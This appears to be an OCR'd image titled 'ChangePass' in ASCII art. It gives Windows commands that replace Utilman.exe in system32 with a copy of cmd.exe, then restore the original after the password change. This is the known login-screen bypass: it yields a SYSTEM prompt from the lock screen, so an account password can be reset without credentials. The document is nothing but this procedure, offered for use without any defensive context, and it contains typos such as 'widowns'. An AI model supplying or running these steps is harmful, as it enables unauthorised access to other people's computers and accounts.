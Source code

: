    _____ _                            _____              
  / ____| |                          |  __ \             
 | |    | |__   __ _ _ __   __ _  ___| |__) |_ _ ___ ___ 
 | |    | '_ \ / _` | '_ \ / _` |/ _ \  ___/ _` / __/ __|
 | |____| | | | (_| | | | | (_| |  __/ |  | (_| \__ \__ \
  \_____|_| |_|\__,_|_| |_|\__, |\___|_|   \__,_|___/___/
                            __/ |                        
                           |___/                         
-----------------------------------------------------------

cd widowns/system32

#ren Utilman.exe Utilman.exe.old // nhân bản

#copy cmd.exe Utilman.exe

--------------------------------
after when had completed change passs

cd widowns/system32
#del Utilman.exe

# ren Utilman.exe.old Utilman.exe
